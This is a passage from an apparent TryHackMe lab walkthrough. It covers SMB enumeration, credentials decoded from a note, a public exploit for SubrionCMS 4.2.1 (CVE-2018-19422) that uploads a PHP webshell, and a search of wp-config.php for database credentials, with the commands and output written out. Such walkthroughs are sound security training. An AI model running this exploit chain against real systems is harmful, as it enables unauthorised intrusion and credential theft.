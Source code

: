 ```
  ..                                  D        0  Sat May 29 03:03:47 2021
  enter.txt                           N      273  Sat May 29 03:17:38 2021

		8460484 blocks of size 1024. 5680216 blocks available
smb: \> 
```
I downloaded the ```enter.txt``` file and found some interesting information. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ cat enter.txt 
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:[REDACTED] [cooked with magical formula]
Wordpress creds
|->
```
## Initial Access
I dropped the credentials into [CyberChef](https://gchq.github.io/CyberChef/) and found the password for the ```admin``` user on Subrion. I didnt find the url through directory enumeration but I did find references to a Subrion panel. So, I connected to ```http://[Remote IP]/subrion/panel/``` and logged in with the credentials found in the ```enter.txt``` file. 
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 49876.py -u http://[Remote IP]/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://[Remote IP]/subrion/panel/
[+] Success!
[+] Got CSRF token: ZKHFY91qSn9lg4xiQBL86zlohp6V13UZeqwcRfpI
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: ipmdnscabuyyxrn

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://[Remote IP]/subrion/panel/uploads/ipmdnscabuyyxrn.phar 

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ whoami
www-data
```
With some hints from ```https://www.infosecarticles.com/tech-support-tryhackme-walkthrough/```, I did some recon to find a ```wp-config.php``` file in the ```wordpress``` directory. 
```
$ ls -la /var/www/html/wordpress/wp-config.php
-rwxr-xr-x 1 www-data www-data 2992 May 29  2021 /var/www/html/wordpress/wp-config.php
```
The file had credentials for an SQL database. 
```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
```